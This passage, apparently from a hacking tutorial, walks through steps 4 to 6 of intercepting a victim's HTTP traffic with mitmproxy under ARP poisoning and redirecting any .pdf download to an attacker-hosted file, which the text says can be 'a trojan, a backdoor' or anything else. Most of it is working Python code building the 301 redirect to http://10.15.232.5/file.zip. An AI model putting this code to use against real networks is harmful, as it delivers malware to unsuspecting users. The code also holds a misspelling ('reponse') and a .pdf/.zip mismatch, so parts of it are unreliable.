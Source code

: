 4. So we will intercept the request and create our own response while ARP poisoning one way. We will code the request method in a way that will be able to differentiate the request flow which contains the downloaded file from all the other request flows. Hence, we can avoid creating responses for each request flow and only create a specific response to the flow which contains the downloaded file. In order to this, we will modify our code to make it print only the URL which contains the .pdf extension since we are targeting pdf download request files.
    ```python
    import mitmproxy

    def request(flow):
        #code to handle request flows
        if flow.request.pretty_url.endswith(".pdf"):
            print("[+] Got an intriguing flow")
            print(flow)
    ```
Note: here we print out the pretty_url of the request property of the flow object. The pretty_url will filter out all the request URL's and since we are tageting .pdf files, we can include a conditional if statement as shown above. If client downloads a .pdf file, the print statement should get executed on your terminal in grey colored text.

5. Next, we will generate custom HTTP responses. Our goal is to generate our own response so whenever the target client sends a request that ends with a .pdf we want to be able to generate a response that will get the client to download a fake file. Here, we can serve the client a trojan, a backdoor or rather any file that you want. We will use a method from MITMproxy library to accomplish this.
    ```python
    import mitmproxy

    def request(flow):
        #code to handle request flows
        if flow.request.pretty_url.endswith(".pdf"):
            print("[+] Got an intriguing flow")
            flow.reponse = mitmproxy.http.HTTPResponse.make(301, "", {"Location":"http://10.15.232.5/file.zip"})
    ```
Note: the make method takes 3 arguments, the first argument is http status code, second is content, and third is headers. Here, we use status code 301 which is "moved permanently", refer this [link](https://en.wikipedia.org/wiki/HTTP_301) for more info. I set the header name to the location of the fake file. Here, in order to replace the target file response with the fake file response, I provide a direct URL to the fake file and it is stored in my own web server. If you notice we did not modify the second parameter (content) because we are redirecting the user to a different location.

6. Next, we will add another additional condition to the if statement to prevent the code from going into a infinite loop due to the .pdf extension. Since our fake file ends with .pdf as well. so replace the if statement as shown below.
    ```python
    import mitmproxy

    def request(flow):
        #code to handle request flows
        if flow.request.host != "10.15.232.5" and flow.request.pretty_url.endswith(".pdf"):
            print("[+] Got an intriguing flow")
            flow.reponse = mitmproxy.http.HTTPResponse.make(301, "", {"Location":"http://10.15.232.5/file.zip"})
    ```
Note: here the host is the IP address or domain name of where my web server is hosted.
